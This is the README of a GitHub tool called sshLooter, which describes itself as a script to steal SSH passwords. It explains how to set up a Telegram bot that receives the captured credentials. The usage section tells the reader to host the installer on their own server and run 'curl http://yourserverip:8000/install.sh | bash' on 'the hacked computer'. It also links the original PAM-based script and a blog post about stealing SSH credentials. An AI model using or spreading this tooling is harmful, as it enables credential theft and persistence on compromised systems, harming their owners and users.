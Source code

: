 # DON'T USE THIS
There's a C version which is much better [sshLooterC](https://github.com/mthbernardes/sshLooterC)

# sshLooter
Script to steal passwords from ssh.

# Install
<pre>
git clone https://github.com/mthbernardes/sshLooter.git
cd sshLooter
</pre>

# Configuration
<pre>
Edit the script on install.sh, and add your telegram bot api, and your userid.
Call the @botfather on telegram to create a bot and call the @userinfobot to get your user id.
</pre>

# Usage
<pre>
On your server execute.
python -m SimpleHTTPServer

On the hacked computer execute.
curl http://yourserverip:8000/install.sh | bash
</pre>

# Original script from
<a href="http://www.chokepoint.net/2014/01/more-fun-with-pam-python-failed.html" target="_blank">ChokePoint</a>

# My post about this script
<a href="https://mthbernardes.github.io/persistence/2018/02/10/stealing-ssh-credentials-another-approach.html" target="_blank">Stealing SSH credentials Another Approach.</a>
